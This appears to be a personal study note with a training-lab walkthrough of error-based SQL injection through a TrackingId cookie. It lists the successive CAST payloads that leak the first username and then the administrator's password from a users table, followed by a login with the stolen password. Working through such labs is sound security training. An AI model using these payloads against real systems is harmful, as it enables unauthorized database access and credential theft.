 ```ad-done
    
    ~~~
    TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--
    ~~~
1. Send the request. Observe that you now get a different error saying that an `AND` condition must be a boolean expression.
2. Modify the condition accordingly. For example, you can simply add a comparison operator (`=`) as follows:
    
    ~~~
    TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--
    ~~~
1. Send the request. Confirm that you no longer receive an error. This suggests that this is a valid query again.
2. Adapt your generic `SELECT` statement so that it retrieves usernames from the database:
    
    ~~~
    TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--
    ~~~
1. Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix up the query aren't included.
2. Delete the original value of the `TrackingId` cookie to free up some additional characters. Resend the request.
    
    ~~~
    TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
    ~~~
1. Notice that you receive a new error message, which appears to be generated by the database. This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row.
2. Modify the query to return only one row:
    
    ~~~
    TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
    ~~~
1. Send the request. Observe that the error message now leaks the first username from the `users` table:
    
    ~~~
    ERROR: invalid input syntax for type integer: "administrator"
    ~~~
1. Now that you know that the `administrator` is the first user in the table, modify the query once again to leak their password:
    
    ~~~
    TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
    ~~~
1. Log in as `administrator` using the stolen password to solve the lab.
```

# Payloads
![[SQLInjection]]
